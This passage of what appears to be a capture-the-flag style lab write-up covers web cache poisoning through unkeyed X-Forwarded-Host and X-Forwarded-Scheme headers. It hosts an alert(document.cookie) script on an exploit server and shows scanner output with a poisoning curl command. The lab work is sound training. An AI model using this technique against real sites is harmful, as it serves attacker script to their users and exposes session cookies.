Cookie is Unkeyed.

7. On the Exploit Server:
	- Set Body to
	```html
	alert(document.cookie)
	```
		- Since we will provide a `.js` file.
	- Set File to: `/resources/js/tracking.js`
	- Store the changes.

8. Update the headers of `/resources/js/tracking.js` Request to point to exploit lab

```
X-Forwarded-Host: exploit-my.exploit-server.net
X-Forwarded-Scheme: http
```

9. Navigate to Home page. This should solve the lab.

> [!WARNING] 
> For whatever reason lab wasn't solving for me.
> Then I googled [this forum discussion](https://forum.portswigger.net/thread/labs-web-cache-poisoning-not-solved-ac8d9856) 
> `wget https://my.web-security-academy.net/` solved the lab.

> [!NOTE]
> `X-Forwarded-Host` won't work unless we also add `X-Forwarded-Scheme` with the value different to `https`.

### Automation

```shell
 ./wcvs -u https://my.web-security-academy.net/ -gr
 ```
 ```shell
 ...
  --------------------------------------------------------------
| Multiple Forwarding Headers Poisoning
 --------------------------------------------------------------
[!] Unexpected Status Code 403 for 1st request of Host
[!] Unexpected Status Code 403 for 1st request of Host
[!] Unexpected Status Code 403 for 1st request of host
[!] Unexpected Status Code 302 for 1st request of X-Forwarded-Host and X-Forwarded-Scheme
[*] X-Forwarded-Host and X-Forwarded-Scheme: Response Body contained 600492421663
[!] Unexpected Status Code 302 for 2nd request of X-Forwarded-Host and X-Forwarded-Scheme

[+] [X-Forwarded-Host X-Forwarded-Scheme] was successfully poisoned! cbwcvs: 527667250183 poison: [600492421663 nothttps]
[+] URL: https://my.web-security-academy.net/?cbwcvs=527667250183
[+] Reason: Location header contains poison value 600492421663
[+] Curl: curl -X 'GET' -H 'Cookie: session=UueCE6h1ByxhuJkvoFfRT41JkBnTx3Hc' -H 'User-Agent: WebCacheVulnerabilityScanner v1.3.3' -H 'X-Forwarded-Host: 600492421663' -H 'X-Forwarded-Scheme: nothttps' 'https://my.web-security-academy.net/?cbwcvs=527667250183'

[*] Checking header(s) [X-Forwarded-Host X-Forwarded-Scheme] with value(s) [600492421663\r\nWeb_Cache: Vulnerability_Scanner nothttps] for Response Splitting, because it was reflected in the header Location

 --------------------------------------------------------------

```
